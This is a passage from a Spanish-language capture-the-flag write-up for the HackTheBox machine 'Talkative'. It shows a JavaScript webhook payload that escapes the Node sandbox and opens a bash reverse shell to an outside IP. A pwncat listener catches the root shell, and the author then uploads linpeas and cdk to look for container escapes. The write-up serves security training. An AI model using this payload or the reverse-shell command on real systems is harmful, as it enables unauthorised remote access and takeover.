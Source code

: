 ```javascript
const require = console.log.constructor('return process.mainModule.require')();
const { exec } = require('child_process');
exec("bash -c 'bash -i >& /dev/tcp/10.10.14.91/443 0>&1'")
```

Le damos a `Save changes`.
Y se nos genera una URL para poder utilizar el webhook que hemos creado.
![Write-up Image](images/Screenshot_25.png)

Ahora si nos ponemos en escucha por el puerto 443.
```shell
$ sudo pwncat-cs -lp 443
```

Y en el navegador abrimos la URL que nos ha dado `(http://talkative.htb:3000/hooks/MKurWc9BYP8GQvs6v/F9cdMw7hYiRYBH7A75cpehnkszDJnYo7AbsAkQdvHtWgAjEf)`

Vemos que recibimos la sesión.
```
[22:47:55] received connection from 10.129.222.158:60628                        bind.py:84
[22:47:57] 10.129.222.158:60628: registered new host w/ db
```

```shell
(remote) root@c150397ccd63:/app/bundle/programs/server# whoami
root
(remote) root@c150397ccd63:/app/bundle/programs/server# hostname -I
172.17.0.3
```

Vamos a subir el `linpeas.sh` ya que no encuentro nada interesante en este contenedor, ningún archivo, ni credencial...
```(local) pwncat$ upload /opt/peas/linpeas.sh /tmp/linpeas.sh
/tmp/linpeas.sh ━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━ 100.0% • 862.8/862.8 KB • ? • 0:00:00
[22:54:10] uploaded 862.78KiB in 2.27 seconds
```


No encuentro nada interesante.
Así que vamos a ejecutar [cdk](https://github.com/cdk-team/CDK) , una herramienta para enumerar vías para escalar privilegios en contenedores docker.

Subimos el `cdk` al contenedor..
```
(local) pwncat$ upload cdk /tmp/cdk
/tmp/cdk ━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━ 100.0% • 12.0/12.0 MB • 2.3 MB/s • 0:00:00
[23:03:22] uploaded 12.02MiB in 6.39 seconds
```
